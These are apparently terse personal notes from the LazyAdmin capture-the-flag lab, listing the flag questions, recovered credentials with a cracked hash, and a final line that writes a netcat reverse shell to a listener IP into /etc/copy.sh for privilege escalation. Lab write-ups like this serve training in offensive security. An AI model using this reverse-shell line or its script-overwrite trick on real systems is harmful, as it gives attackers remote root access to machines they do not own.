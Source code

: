 ### LazyAdmin


####  Lazy Admin

What is the user flag?


What is the root flag?






admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh